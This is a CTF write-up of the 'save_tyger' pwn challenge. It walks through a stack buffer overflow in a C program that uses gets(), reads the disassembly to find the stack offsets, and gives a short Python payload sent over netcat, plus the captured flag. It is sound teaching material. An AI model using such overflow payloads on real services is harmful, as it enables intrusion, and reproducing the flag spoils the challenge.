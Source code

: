 # pwn/save_tyger

## Challenge

Can you save our one and only Tyger?
<br>
Connect with `nc litctf.live 31786`

[`save_tyger.zip`](https://drive.google.com/file/d/1ePTPwUBKcNLESM2ev1IZEb3kL4SeTcn1/view)

## Solution

We're given a C file (and the corresponding executable). Via the `nc` terminal command, we interact with a running instance of the program and have to exploit it somehow:
```c
#include <stdlib.h>
#include <stdio.h>

char flag[64];

int main(){
	long pass;
	char buf[32];
	pass = 0;
	printf("Oh no, someone stole our one and only Tyger! :noo:\n");
	printf("Would you help us save him?\n");
	gets(buf);
	if(pass == 0xabadaaab){
		printf("It worked!\n");
		FILE *f = fopen("flag.txt", "r");
		if(f == NULL){
			printf("Something went wrong. Please let Eggag know.\n");
			exit(1);
		}
		fgets(flag, 64, f);
		puts(flag);
	}
	else printf("WE NEED HIM BAAACK!\n");
}
```
This is a classic problem.

We need to somehow overwrite `pass`. Note the usage of `gets()` for input, which lets us write arbitrarily many characters, so we can overflow `buf` into `pass`. We now look in the executable (`objdump -d`) for where `buf` and `pass` are stored:
```
00000000000011c9 <main>:
    11c9:	f3 0f 1e fa          	endbr64 
    11cd:	55                   	push   %rbp
    11ce:	48 89 e5             	mov    %rsp,%rbp
    11d1:	48 83 ec 30          	sub    $0x30,%rsp
    11d5:	48 c7 45 f8 00 00 00 	movq   $0x0,-0x8(%rbp) <- pass = 0
    11dc:	00 
    11dd:	48 8d 3d 24 0e 00 00 	lea    0xe24(%rip),%rdi        # 2008 <_IO_stdin_used+0x8>
    11e4:	e8 a7 fe ff ff       	callq  1090 <puts@plt>
    11e9:	48 8d 3d 4b 0e 00 00 	lea    0xe4b(%rip),%rdi        # 203b <_IO_stdin_used+0x3b>
    11f0:	e8 9b fe ff ff       	callq  1090 <puts@plt>
    11f5:	48 8d 45 d0          	lea    -0x30(%rbp),%rax <- so this must be buf
    11f9:	48 89 c7             	mov    %rax,%rdi <- argument to gets (buf)
    11fc:	b8 00 00 00 00       	mov    $0x0,%eax
    1201:	e8 aa fe ff ff       	callq  10b0 <gets@plt>
...
```
The assignment `pass = 0` is converted into a `movq` (**mov**e **q**uadword (64-bit)) instruction, copying the literal `$0x0` into address `-0x8(%rbp)`. For the call to `gets()`, note by calling conventions that the register `%rdi` stores the first argument. Its value was copied from `%rax`, which was stored the address (not the address's value) `-0x30(%rbp)` via `lea` (**l**oad **e**ffective **a**ddress).

`pass` is at stack frame (`%rbp`) minus `0x8`, while `buf` is at minus `0x30`.
That means they're a distance of `0x30 - 0x8 = `40 bytes apart,
so we need to send 40 junk characters, and then `ab aa ad ab` (little-endian).
We write code to produce the string, converting the hex representation of the bytes to chars:
```py
print("a"*40+"abaaadab".decode("hex"))
```
Pipe the output into the netcat command (`python script.py | nc ...` or `nc ... < output.txt`), and we get our flag.

## Flag

`LITCTF{y4yy_y0u_sav3d_0ur_m41n_or94n1z3r}`
